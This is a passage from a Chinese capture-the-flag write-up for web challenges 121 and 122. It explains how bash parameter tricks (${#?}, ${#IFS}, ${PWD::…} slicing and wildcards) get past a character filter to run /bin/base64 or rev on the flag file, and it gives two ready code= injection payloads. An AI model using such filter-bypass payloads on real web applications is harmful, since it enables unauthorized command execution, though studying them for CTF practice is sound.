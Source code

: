 猜测上面构造的是cat或tac



#### web121

![image-20250224234000261](assets/image-20250224234000261.png)

`SHLVL`被过滤了，需要想办法构造出1

可以使用 \${##} 或者 ${#?} 代替：

![image-20250224234236132](assets/image-20250224234236132.png)

> 通过`$?`来实现的，`$?`是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

```
code=${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

拿到flag

题目给的payload构造的是`rev`，`${#IFS}` 是 3 ：

```
code=${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
```



#### web122

![image-20250225210118014](assets/image-20250225210118014.png)
